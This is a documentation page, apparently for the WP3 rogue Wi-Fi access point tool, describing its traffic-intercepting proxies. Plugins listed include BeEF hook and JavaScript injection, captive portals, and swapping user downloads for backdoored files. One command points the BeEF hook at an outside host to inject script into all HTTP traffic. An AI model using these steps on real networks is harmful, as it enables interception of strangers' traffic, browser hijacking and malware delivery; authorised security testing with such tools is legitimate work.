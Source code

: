 ```yaml
---
title: 'Proxies'
description: 'The proxies are designed to add features to WP3 core and run parallel with access point (AP).'
---
```



The proxies are designed to add features to WP3 core and run parallel with access point (AP),
but redirect all traffic with `iptables`. Proxies work by intercepting a request, modifying the request if necessary, then handling or forwarding the request to its destination. When a user connects to a AP, the transparent proxy intercepts the request before passing it on to the provider.  

{% include alert.html type="info" content="The most important is you can run one proxies each time , because the proxies has been designed to work for manipulate data packets redirecting all data for a specific port number" %}

Avaliable proxies:

- **pumpkinproxy** - Proxy for intercept network traffic on TCP protocol [doc](#pumpkinproxy)
- **captiveflask** - Allow block Internet access for users until they open the page login page. [doc](#captiveflask)
- **noproxy** - Runnning without proxy redirect traffic

The basic command guidelines to get a plugins are:

if you want to select the proxy, follow command bellow. 
```bash
wp3 > set proxy proxy_name
```

if the proxy has plugins, when type `proxies` you see somes options for set. you can to enable/disable plugin command, type `tab` to autocomplete ;): 
```bash
wp3 > set proxy_name.plugin_name true/false
```

The example above is for enable/disable a plugin, but you can use same sintax to configure plugin paramenter. you can see this paramenter typing `info proxy_name` or using type like this example bellow, using `tab` to autocomplete.

```bash
wp3 > set pumpkinproxy.
pumpkinproxy.beef                            pumpkinproxy.html_inject
pumpkinproxy.beef.url_hook                   pumpkinproxy.html_inject.content_path
pumpkinproxy.downloadspoof                   pumpkinproxy.js_inject
pumpkinproxy.downloadspoof.backdoorExePath   pumpkinproxy.js_inject.url
pumpkinproxy.downloadspoof.backdoorPDFpath   pumpkinproxy.no-cache
pumpkinproxy.downloadspoof.backdoorWORDpath  pumpkinproxy.replaceImages
pumpkinproxy.downloadspoof.backdoorXLSpath   pumpkinproxy.replaceImages.path
wp3 > set pumpkinproxy.
```

let now set `url_hook` parameter the plugin beef to inject javascript in all request http.

```bash
wp3 > set pumpkinproxy.beef.url_hook http://172.16.149.141:3000/hook.js
```

Proxies developers and users are welcome to include your proxy into this project, take a look the guidelines [how to create a proxy](#development).